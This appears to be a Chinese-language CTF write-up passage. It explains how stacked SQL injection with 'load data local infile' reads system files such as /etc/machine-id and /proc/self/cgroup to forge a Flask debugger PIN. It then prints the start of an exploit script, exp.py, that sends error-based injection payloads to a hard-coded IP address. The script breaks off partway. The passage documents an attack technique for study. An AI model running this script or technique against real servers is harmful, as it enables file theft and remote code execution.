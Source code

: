 这里应该就是用SQL的堆叠注入去读取对应的文件了

但是`load_file`无法成功读取一些涉及系统信息的文件，改用`load data infile`来读取，发现能读到涉及MAC等pin码伪造的必要信息

但是这里伪造pin码的时候和平常有一些区别

MySQL服务和Web服务分属两个不同的容器，使用`load data infile`读取到的是MySQL容器的文件信息，该文件信息并不是Web服务的运行环境信息，所以应该使用`load data local infile`来读取Web服务的文件信息来构造pin码

网上大多数的pin码计算方式并不能计算出当前环境下正确的pin码，主要有两个变化，一个是修改以前是读取`/proc/self/cgroup、/etc/machine-id、/proc/sys/kernel/random/boot_id`这三个文件，读取到一个文件的内容，直接返回，新版本是从`/etc/machine-id、/proc/sys/kernel/random/boot_id`中读到一个值后立即break，然后和`/proc/self/cgroup`中的id值拼接，使用拼接的值来计算pin码；二一个变化是h的计算从md5变为了使用sha1，所以计算pin码的POC也要进行相应的调整

exp.py

```
import requests
import re
import string
import random
from pin import solve


def get_content(file, regexp):
    ans = ''
    z = 1
    while True:
        try:
            tmp_database = get_random_id()
            path = f"view?note_id=';CREATE TABLE IF NOT EXISTS {tmp_database}(cmd text);Load data local infile '{file}' into table {tmp_database};select * from users where username=1 and (extractvalue(1,concat(0x7e,(select substr((select group_concat(cmd) from {tmp_database}),{str(z)},{str(20)})),0x7e)));"
            view_url = base_url + path
            r = s.get(url=view_url)
            content = re.findall("'~(.*?)'", r.text)[0]
            if content[0] == '~':
                break
            ans += content[:-1]
            if content[-1] != '~':
                break
            z += 20
            print(ans)

        except Exception as e:
            print(e)
            break
    k = re.findall(regexp, ans)[0]
    print('k is: ', k)
    return k


def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])


base_url = 'http://localhost:5002/'
base_url = 'http://124.70.185.87:5002/'
s = requests.session()

login_data = {
    'username': "veererere",
    'password': "fefefef"
}
proxies = {
```